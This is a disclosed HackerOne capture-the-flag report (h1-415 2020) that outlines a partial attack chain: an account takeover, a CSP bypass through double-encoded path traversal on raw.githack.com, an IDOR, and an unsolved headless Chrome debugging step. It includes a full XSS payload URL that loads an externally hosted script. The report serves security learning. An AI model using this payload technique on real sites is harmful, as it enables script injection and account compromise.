 # [h1-415 2020] Spent a week and failed at solving the last step.

## Report Details
- **Report ID**: 781265
- **URL**: https://hackerone.com/reports/781265
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-23T05:07:37.816Z
- **Disclosed**: 2020-02-04T00:17:33.360Z

## Reporter
- **Username**: s1r1u5
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## Summary:

I found something interesting  with Headless chrome debugging in the last step, I am sure I am going to solve this after trying very hard for about a week, I don't know when this CTF is going to end, that's why I am submitting a summary of how to solve this so that I can write the full report after fully solving the final step.

1. ATO of jobert's account using jobert@mydocz.cosmic
2. CSP bypass using URL double encoding. `https://h1-415.h1ctf.com/support/chat?message=%3Cscript%20type=%22text/javascript%22%20src=%22https://raw.githack.com/mattboldt/typed.js/master/lib/typed.js/..%252f..%252f..%252f..%252f..%252fInvaders0/xss/81faa59004ebeee525502d38b302445be93a2131/as.js%22%3E%3C/script%3E`
3. IDOR to  update the name at review. ```http://localhost:3000/support/review/c9b46d365357148bcd2436bc5d7fc19f27268010e91cd271b6531f8dff6824dc```
4. Headless chrome debugging enabled (have to solve).

## Impact

.

## Attachments
No attachments
